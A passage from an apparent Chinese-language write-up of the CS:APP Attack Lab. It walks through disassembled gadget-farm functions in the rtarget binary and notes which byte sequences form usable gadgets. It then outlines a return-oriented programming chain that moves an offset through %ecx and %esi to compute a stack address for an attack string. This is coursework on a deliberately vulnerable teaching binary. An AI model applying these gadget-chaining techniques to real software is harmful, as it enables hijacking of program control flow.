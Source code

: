 ```
00000000004019a0 <addval_273>: // 不可取，c3不是指令
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019ae <setval_237>: // 不可取，c7不是指令
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq

00000000004019c3 <setval_426>: // 是他！是他！就是他！
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

以`%rsi/%esi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(6|e)`。在`rtarget`中可能的代码段如下：

```
00000000004019e8 <addval_113>: // 不可取，78 c9不是指令
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq

0000000000401a11 <addval_436>: // 可以是他！
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq

0000000000401a25 <addval_187>: // 可以是他，38 c0 是cmpb %al指令，不影响结果
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq

0000000000401a61 <addval_404>: // 不可取，92 c3不是指令
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq
```

这里没有`48`，那么就只能输送到`%esi`中。这里的难点在于如何把偏移量输送到`%esi`中？这里肯定是不能直接输送了，必须通过寄存器的中转。这里只出现了`89 ce`，通过查表我们可以发现`89 ce`对应的指令是`movl %ecx, %esi`。那么我们还需要想办法把值送到`%ecx`中。那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. ecx = 偏移量； rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%ecx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(1|9)`，包含其格式的代码段为：

```
00000000004019f6 <getval_226>: // 不可取，48 c0不是指令
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq
0000000000401a33 <getval_159>: // 可取，38 c9 是cmpb %cl指令
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq
0000000000401a68 <getval_311>: // 可取，08 db 是orb %bl指令
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq
0000000000401a6e <setval_167>: // 不可取，91 c3 不是指令
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq
```
